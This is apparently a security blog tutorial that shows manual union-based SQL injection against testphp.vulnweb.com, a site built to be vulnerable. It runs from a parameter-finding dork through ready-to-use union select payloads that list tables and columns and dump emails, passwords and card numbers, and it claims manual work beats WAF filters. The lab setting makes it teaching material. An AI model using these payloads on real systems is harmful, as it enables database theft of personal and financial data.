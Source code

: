 <h2>EXPLOITING UNION BASED SQL INJECTION MANUALLY</h2>

Hey Guys,

It's [0xvenus](https://twitter.com/0x_venus) again

HERE I SHOWCASE HOW TO PERFORM A BASIC UNION BASED SQL INJECTION (MANUALLY)

KINDLY CHECK NEXT POST FOR ADVANCED UNION BASED SQLI WHERE I SHOWED HOW TO BYPASS SOME WAFS AND FILTERS

``Performing a Union-Based SQL Injection attack manually involves injecting a crafted payload into an input field or parameter to manipulate a SQL query and retrieve unauthorized data from the database. Please note that attempting SQL injection on systems you don't own or have explicit permission to test is illegal and unethical. Only perform these actions in a controlled, legal environment with proper authorization.``

Target: https://testphp.vulnweb.com/ (intentionally vulnerable site created for testing purpose)

**STEP 1:**

``Finding the injection point: we can simply find the injection point of a site by dorking for parameters with value``

dork example: ``site:testphp.vulnweb.com inurl:php?``. There are many dorks online you can search for more.

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/71e2cbe6-2ad8-4704-b9f3-58d3157b6528)

clicking on any of those pages in the result should reveal the directory with parameter.

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/58b964c7-9ede-40cd-8e2a-d4d19d435995)

As you can see we have a parameter and a value which we can then confirm the vulnerabilty

**STEP 2**

``Confirming the vulnerability: we can easily confirm the vulnerability by throwing a single quote or double quotes at the end of the parameter``
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/1c2ec9d8-c6ee-4f2f-b026-fbcf65108af6)
As you can see it throws an SQL error which confirms the vulnnerability

**STEP 3**

``Adding a URL balancer(comment) to fix the error: well actually it only depends on the environment and reaction of application when we try some commenting operators. If you see php is used then usually "--" will surely work other wise you can check "--+" or "# (url encoded)", else the best option is to try with different types of comments and analyse the input. So what we will do to check is try to close our input with all possibilities like single quote double quote or brackets etc, and comment rest query and if it works then we can be sure that this comment is working.``

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/3541e6aa-8396-4dd6-aa65-7e5c2ad6f094)

No error after addiing the balancer. We can now proceed to the next step

**STEP 4**

``Finding the total number of columns present in the database``

we can easily use the ``order by`` or ``group by`` statement


![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/7f4aa84f-1f38-4a27-93d0-bab8aa9edb5f)

``order by 1`` didn't give error so we will keep increasing the number till we get error

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/29c929b1-85e3-4ca2-a288-994ec005e33f)

``order by 1000`` showed errors which means we dont have up to 1000 columns in the database

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/450dfa62-b496-41ca-826f-16caef47db97)

increasing the number i got error at ``order by 4`` which shows we have 3 columns present in the database


**STEP 5**

``Finding the vulnerable column: we will be injecting our SQL payloads in the vulnerable column``
 
 we can get the vulnerable column by adding a dot or a slash before the parametre value combined with the ``union select statement``
 
 ```http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,2,3```

***Note the - after the = sign***

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/25527c10-1785-4f3b-b1d6-814f4f97dd47)
Those numbers showing on the screen are the vulnerable columns so, you can choose the one you prefer for the injection

i will be choosing column 2 here.

**STEP 6**

``getting the database name and version: you can get the database version by inputing the @@version or version() and for db name database() in the vulnerable column``

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e600515b-3169-4dcc-9ee9-aafc8d6b7fe5)

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/949e1917-e5e6-4667-aa93-d6b6ae8d4525)

```http://testphp.vulnweb.com/artists.php?artist=-1%20union%20select%201,version(),3```

**STEP 7**

``getting table names``

we can get the table names one by one by using the query ```table_name``` in the vulnerable column and then adding ```from information_schema.tables where table_schema=database() limit 0,1``` at the end of the query

```
First row http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 0,1
Second row http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 1,1
Third row http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 2,1
Forth row http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 3,1
and so on...
```
Stressful right? lol i've gat your back mate

we can easily dump the table names once using the ``concat`` statement

```(SELECT+GROUP_CONCAT(table_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.TABLES+WHERE+TABLE_SCHEMA=DATABASE())```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/3d3ba4ed-842f-4f99-8668-f5dd9180e4bc)

cool we have the table names in a single shot

**STEP 8**

``getting the column names: we can get the columns in a table we want``

```http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,column_name,3 from information_schema.columns where table_schema=database() and table_name='users' limit 0,1```

Here i tried getting the columns in the *users* table 
NB: remember to keep increasing the number of limit after the query

so to get the columns in a shot we can use

```(SELECT+GROUP_CONCAT(column_name+SEPARATOR+'::')+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+TABLE_NAME='users'+AND+TABLE_SCHEMA=DATABASE())```

NB: set the value of the TABLE_NAME= to the table you are t5rying to get it columns

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/c70af46f-e483-4d4e-a33a-88a78bd5524e)

As you can see we have the columns in the users table which are emails,creditcards,address,password e.t.c

```http://testphp.vulnweb.com/artists.php?artist=-1+union+select+1,(SELECT+GROUP_CONCAT(column_name+SEPARATOR+%27::%27)+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+TABLE_NAME='users'+AND+TABLE_SCHEMA=DATABASE()),3

let's proceed to the next step

**STEP 9** 

``dumping the juicy contents of the database like here we have columns; passwords,emails,creditcards e.t.c in the users table``


```http://testphp.vulnweb.com/artists.php?artist=-1+union+select+1,(SELECT+GROUP_CONCAT(email,'::',%20pass,'::',%20name,'::',%20cc,'::',uname,'::',%20phone%20+SEPARATOR+'::')+FROM+users%20),3
```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/4c5bc588-ce79-42e1-88a0-0d81313663af)

NB: i added the column names in a table to be able to dump it contents

so. note down the columns a table then replace them in the payload.


*Ps: union based SQLi is helpful because sqlmap cant bypass all Wafs and filters but you can, the success rate in dumping the database is high by doing it manually*


Thanks 

reach out to me on [Twitter](https://twitter.com/0x_venus) for any question

see you in the next post.























